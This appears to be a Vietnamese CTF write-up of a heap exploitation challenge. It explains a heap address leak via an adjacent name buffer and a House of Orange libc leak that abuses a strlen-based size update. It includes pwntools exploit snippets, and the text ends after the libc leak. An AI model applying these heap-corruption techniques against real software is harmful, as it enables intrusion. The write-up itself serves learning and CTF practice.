 ## Analysis

- đầu tiên chall cho ta nhập name cho Author, check địa chỉ của nama là 0x0000000000602060
- hàm add cho phép ta malloc với size ta nhập vào, sau đó thì nhập content vào chunk đó , chunk addr và size sẽ được lưu vào array[] và array1[], địa chỉ của 2 thằng này lần lượt là 0x00000000006020A0 và 0x00000000006020E0

```python 
name = 0x0000000000602060
array = 0x00000000006020A0
size = 0x00000000006020E0 
```
- hàm show thì in ra content của chunk
- hàm edit thì sửa lại content và cập nhật lại size theo content mới
- hàm change cho phép ta in ra Author, page, content và sửa Author
- nhưng đặc biệt là ở đây không hề có hàm free() hay hàm tạo shell, chà căng ta

## Exploit 

### Stage 1: leak heap

- đầu tiên có điều khá thú vị mà ko để ý đó là 3 thằng name, array, size đều nằm gần nhau 

![image](https://github.com/gookoosss/CTF/assets/128712571/223bd1ae-68f6-42b5-862f-b469056c8403)


- nếu ta fill up thằng name nó sẽ nối liền với địa chỉ heap của thằng page, lúc này dùng change() để in ra Author và leak heap 

```python 
p.sendlineafter(b'Author :', b'a'*64)
add(0x18, b'a')
p.sendlineafter(b'choice :', b'4')
p.recvuntil(b'a'*64)
heap = u64(p.recv(4) + b'\0\0\0\0') - 0x10
print(hex(heap))
```

### Stage 2: Leak libc by House of Orange 

- có 1 bug khá khó thấy đó là ở edit(), size được cập nhật lại bằng hàm strlen()
- nếu ta để size là 0x18, sau đó orw chunk bằng 0x18 byte a, điều này làm nó nối tiếp với size top chunk, mà strlen() xét đến khi gặp null byte, vô tình thay đổi size = 0x18(byte a) + 0x3(size top chunk) = 0x1b

![image](https://github.com/gookoosss/CTF/assets/128712571/9aeb4d86-7c38-4f31-af01-949b2a45e5e7)

![image](https://github.com/gookoosss/CTF/assets/128712571/d642ffa1-ab7e-4550-b18a-eda54eef5bd4)

- lúc này size = 0x1b => ta có thể orw size top chunk => House of Orange 
- sau đó ta malloc 1 size bất kì để leak libc 

```python 
p.sendlineafter(b'Author :', b'a'*64)
add(0x18, b'a')
edit(0, b'a'*0x18)
edit(0,b'\0'*0x18 + b'\xe1\x0f\x00')
p.sendlineafter(b'choice :', b'4')
p.recvuntil(b'a'*64)
heap = u64(p.recv(4) + b'\0\0\0\0') - 0x10
print(hex(heap))
p.sendlineafter(b'no:0) ', b'0')
add(0x78, b'a'*8)
show(1)
p.recvuntil(b'a'*8)
libc.address= u64(p.recv(6) + b'\0\0') - 0x3c4188
```